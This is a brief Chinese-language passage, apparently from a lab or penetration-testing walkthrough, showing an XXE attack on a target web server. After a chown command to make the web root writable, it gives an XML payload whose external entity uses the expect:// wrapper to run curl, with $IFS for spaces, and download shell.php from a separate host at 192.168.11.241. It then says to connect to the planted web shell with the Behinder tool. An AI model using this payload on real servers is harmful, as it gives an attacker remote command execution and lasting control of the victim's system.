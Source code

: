 在执行下载之前需要确认靶机apache用户具有写入权限。

```shell
chown -R apache:apache /var/www/html
```

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE GVI [ <!ELEMENT foo ANY >
<!ENTITY Fsec.io SYSTEM "expect://curl$IFS-O$IFS'192.168.11.241/shell.php'" >]>
<creds>&Fsec.io;</creds>
```

![image-20220406200242069](../../images//image-20220406200242069.png)

使用冰蝎连接靶机
